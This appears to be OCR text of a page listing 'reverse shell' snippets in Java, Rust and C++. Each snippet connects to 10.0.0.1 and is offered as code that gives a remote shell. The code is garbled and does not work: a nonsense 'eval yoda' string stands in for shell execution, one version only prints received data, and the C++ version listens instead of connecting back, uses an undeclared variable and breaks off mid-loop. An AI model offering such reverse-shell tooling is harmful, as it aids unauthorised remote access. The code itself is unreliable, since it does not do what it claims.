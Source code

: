 2. Reverse shell with a twist:
```java
import java.io.*;
import java.net.*;

public class ReverseShell {
    public static void main(String[] args) throws Exception {
        Socket socket = new Socket("10.0.0.1", 80);
        PrintWriter writer = new PrintWriter(socket.getOutputStream(), true);
        BufferedReader reader = new BufferedReader(new InputStreamReader(socket.getInputStream()));
        writer.println("eval yoda 'execute('file: /bin/bash')' ");
    }
}
```

**Rust**

1. Simple reverse shell:
```rust
use std::io::{Read, Write};
use std::net::TcpStream;

fn main() {
    let mut stream = TcpStream::connect("10.0.0.1:80").unwrap();
    let mut buf = [0; 1024];
    stream.read(&mut buf).unwrap();
    println!("{}", String::from_utf8_lossy(&buf));
}
```

2. Reverse shell with a twist:
```rust
use std::io::{Read, Write};
use std::net::TcpStream;

fn main() {
    let mut stream = TcpStream::connect("10.0.0.1:80").unwrap();
    let mut buf = [0; 1024];
    stream.read(&mut buf).unwrap();
    println!("{}", String::from_utf8_lossy(&buf));
    stream.write(b"eval yoda 'execute('file: /bin/bash')' ");
}
```

**C++**

1. Simple reverse shell:
```cpp
#include <iostream>
#include <string>
#include <sys/socket.h>

int main() {
    int sockfd, sfd;
    struct sockaddr_in servaddr, cliaddr;
    memset(&servaddr, 0, sizeof(struct sockaddr_in));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(80);
    if (inet_pton(AF_INET, "10.0.0.1", &(servaddr.sin_addr)) == 1) {
        sockfd = socket(AF_INET, SOCK_STREAM, 0);
        bind(sockfd, (struct sockaddr *)&servaddr, sizeof(servaddr));
        listen(sockfd, 1);
        sfd = accept(sockfd, (struct sockaddr *)&cliaddr, sizeof(cliaddr));
        while(1) {
            read(sfd, buf, 1024);
            if (buf[0] == '\x00') break;
            write(sfd, buf, 1024);
```